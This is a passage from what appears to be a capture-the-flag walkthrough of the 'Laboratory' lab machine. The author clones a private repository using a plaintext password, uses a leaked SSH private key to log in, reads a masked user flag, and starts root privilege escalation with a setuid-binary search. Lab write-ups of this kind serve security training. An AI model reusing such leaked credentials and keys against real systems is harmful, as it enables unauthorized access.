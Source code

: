 The `SecureDocker` repository is private and according to the description may hold interesting information.

Let us clone the repository to take a better look at it.

```bash
root@darkness:~# git -c http.sslVerify=false clone https://git.laboratory.htb/dexter/SecureDocker
Cloning into 'SecureDocker'...
Username for 'https://git.laboratory.htb': dexter
Password for 'https://dexter@git.laboratory.htb': Chronos@htb!
warning: redirecting to https://git.laboratory.htb/dexter/SecureDocker.git/
remote: Enumerating objects: 10, done.
remote: Counting objects: 100% (10/10), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 10 (delta 0), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (10/10), done.
```

Let us see all available files:

```bash
root@darkness:~/SecureDocker# find . | grep -v .git
.
./dexter
./dexter/recipe.url
./dexter/.ssh
./dexter/.ssh/id_rsa
./dexter/.ssh/authorized_keys
./dexter/todo.txt
./README.md
```

Seems like we have an id_rsa ssh-key file! Let us use the key to login into the server using ssh.

```bash
root@darkness:~/SecureDocker/dexter/.ssh# ssh -i id_rsa dexter@laboratory.htb 
dexter@laboratory:~$
```

We successfully login via ssh and can now read user.txt.

```bash
dexter@laboratory:~$ cat user.txt 
89ff6***************************
```

## Privesc - Root

Now that we have user, let us enumerate the system to find a privesc-vector to root.

### Enumeration as user

After a bit of enumeration, I decided to search for setuid-binaries.

```bash
dexter@laboratory:~$ find / -user root -perm -4000 -exec ls -alh {} \; 2>/dev/null | grep -v snap
-rwsr-xr-x 1 root dexter 17K Aug 28 14:52 /usr/local/bin/docker-security
-rwsr-xr-x 1 root root 163K Jul 15  2020 /usr/bin/sudo
-rwsr-xr-x 1 root root 44K May 28  2020 /usr/bin/newgrp
-rwsr-xr-x 1 root root 67K Apr  2  2020 /usr/bin/su
-rwsr-xr-x 1 root root 87K May 28  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39K Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 84K May 28  2020 /usr/bin/chfn
-rwsr-xr-x 1 root root 31K Aug 16  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 39K Apr  2  2020 /usr/bin/umount
-rwsr-xr-x 1 root root 52K May 28  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root 55K Apr  2  2020 /usr/bin/mount
-rwsr-xr-x 1 root root 67K May 28  2020 /usr/bin/passwd
[...]
```